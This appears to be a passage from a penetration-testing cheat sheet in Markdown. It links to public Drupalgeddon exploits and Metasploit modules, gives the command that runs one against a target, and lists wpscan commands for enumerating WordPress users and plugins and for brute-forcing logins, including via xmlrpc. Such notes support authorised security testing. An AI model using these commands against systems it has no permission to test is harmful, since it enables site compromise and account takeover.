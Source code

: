 > Vulnerability - Drupalgeddon

Exploit Drupalgeddon: https://www.exploit-db.com/exploits/34992

```
python2.7 drupalgeddon.py -t http://domain.local -u <user> -p <password>
```

We could also use the [exploit/multi/http/drupal_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) Metasploit module to exploit this.

Exploit Drupalgeddon2: https://www.exploit-db.com/exploits/44448

Exploit Drupalgeddon3: https://github.com/rithchard/Drupalgeddon3

In Metasploit:  multi/http/drupal_drupageddon3


### Wordpress

> Tool - wpscan

Install it:

```
sudo gem install wpscan
```

Command syntax:

```
wpscan --url http://<IP>/ --enumerate
```

Looking for users, command example:

```
wpscan -e u -t 500 --url http://<domain>
```

Plugins:

```
wpscan --url http(s)://<domain> --enumerate p
```

Vulnerable plugins:

```
wpscan --url http(s)://<domain> --enumerate vp
```

Brute force:

```
wpscan --url http://<domain> -P <passwords.txt> -U <users.txt>
```

Brute force to xmlrpc login:

The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.
